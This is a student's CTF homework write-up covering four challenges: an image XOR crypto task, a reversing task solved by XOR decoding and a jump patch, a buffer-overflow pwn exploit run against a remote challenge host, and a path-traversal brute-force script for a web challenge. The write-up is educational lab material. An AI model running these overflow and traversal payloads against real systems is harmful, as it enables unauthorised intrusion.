

# HW0 Writeups - nella17

## [HW0] to bf or not to bf `Crypto` [50]

`encrypt` use randint with same seed to xor image, xor two image to get flag.

```python
import cv2

flag = cv2.imread('flag_enc.png', cv2.IMREAD_GRAYSCALE)
golem = cv2.imread('golem_enc.png', cv2.IMREAD_GRAYSCALE)

h, w = flag.shape
for i in range(h):
    for j in range(w):
        flag[i][j] ^= golem[i][j]

cv2.imwrite('xor.png', flag)
```


<div style="page-break-after: always;"></div>

## [HW0] XAYB `Rev` [50]

### Sol1

Copy encrypted data from binary, restore flag with little endian and xor.

```python
from pwn import p64, pack

enc = b''
enc += p64(0x9DC2A589B5B3BEB4)
enc += p64(0xA7C2ABADA5B3A5AD)
enc += p64(0xB99184BEADC2C7AD)
enc += p64(0xAD9A91869385AD8B)
enc += p64(0xCBC6A4B0BEADAD84)
enc += pack(0xB7B0A2A6)
enc += pack(0x8F95)
enc = enc.strip(b'\0')

flag = bytes(c ^ 0xf2 for c in enc).decode()
print(flag)
```

### Sol2

Patch `jnz short loc_156D` at `0x0151C` to bypass check.



<div style="page-break-after: always;"></div>

## [HW0] Arch Check `Pwn` [50]

Just overflow, overwrite return address.

```python
from pwn import *

HOST, PORT = 'up.zoolab.org', 30001

exe = context.binary = ELF('./arch_check')

if args.REMOTE:
    io = remote(HOST,PORT)
else:
    env = {}
    io = process(exe.path)
    pause()

backdoor = 0x4011DD
payload = flat({ 0x28: backdoor })
io.sendline(payload)

# io.interactive()

io.clean(1)
io.sendline('cat /home/`whoami`/flag*')
flag = io.readuntil('}').strip()
success(flag)
```

<div style="page-break-after: always;"></div>

## [HW0] text2emoji `Web` [50]

Path traversal to access `/looksLikeFlag` endpoint, and brute force to get flag.
[ASIS CTF Finals 2018 (balsn.tw)](https://balsn.tw/ctf_writeup/20181124-asisctffinal/#proxy-proxy)

```python
from multiprocessing.pool import Pool
from multiprocessing import freeze_support
from time import time
def multi(func, init_list, processes = 16, debug = False):
    freeze_support()
    with Pool(processes) as pool:
        start = time()
        outputs = pool.starmap(func, init_list)
        outputs = [x for x in outputs if x]
        end = time()
        if debug: print('used time: {}'.format(end-start))
    return outputs

import requests
import json
import string

def send(flag):
    res = requests.post(
        url = "http://splitline.tw:5000/public_api",
        headers = { "Content-Type": "application/json" },
        data = json.dumps({ "text": f"%2e%2e/looksLikeFlag?flag={flag}" })
    )
    return res.json()['looksLikeFlag']

# /^FLAG{[a-z0-9_]+}$/
flag = 'FLAG{'
charset = string.ascii_lowercase + string.digits + '_' + '}'

def wrap(t):
    if send(t):
        return t

def main():
    global flag
    while '}' not in flag:
        flag = multi(wrap, [(flag+c,) for c in charset], len(charset))[0]
        print(flag)

if __name__ == '__main__':
    main()
```

